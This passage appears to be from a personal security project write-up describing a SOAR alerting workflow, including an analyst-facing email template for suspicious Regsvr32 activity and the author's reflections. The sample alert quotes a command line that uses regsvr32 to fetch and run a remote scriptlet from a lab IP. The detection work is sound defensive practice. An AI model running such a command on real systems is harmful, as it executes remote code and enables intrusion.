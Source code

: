 This split allows:

* High-confidence alerts to escalate immediately

* Low-risk alerts to be logged passively

* Complete coverage without overloading analysts

In production, this structure would prevent alert fatigue **without missing early-stage threats**.

---

## **✉️ Email Design**

The email format is intentionally clean and analyst-friendly.

### **Subject:**

\[ALERT\] Suspicious Regsvr32 Activity | User: redteam | IP: 192.168.1.80

### **Body:**

\- User: redteam  
\- Image: C:\\Windows\\System32\\regsvr32.exe  
\- Parent Image: powershell.exe  
\- CommandLine: regsvr32 /i:http://192.168.1.80/file.sct scrobj.dll  
\- Integrity Level: High  
\- Contacted IP: 192.168.1.80  
\- VT Malicious Score: 3  
\- VT Reputation Score: \-10

Recommended Actions:  
\- Investigate user activity  
\- Review traffic to the contacted IP  
\- Isolate the host if confirmed

The subject line offers **instant triage context**; the body gives **pivot points and next steps**.

---

## **🧠 Reflection and What I Learned**

This project marked my first time designing a complete SOAR workflow — not just writing detections, but building a system that takes raw alerts, enriches them with external intelligence, and produces outcomes that save time and support decision-making. It forced me to think like both a SOC analyst and a detection engineer: how to structure signals, reduce noise, and deliver relevant context to the right place at the right time.

Key skills I developed:

* **Working with JSON in Logic Apps** — including how to reverse-engineer API responses using DevTools, extract the schema structure, and parse only the relevant fields

* **Designing conditional logic** to filter noise without missing real threats

* **Building enrichment workflows** that reflect real-world use cases — not just lab setups

---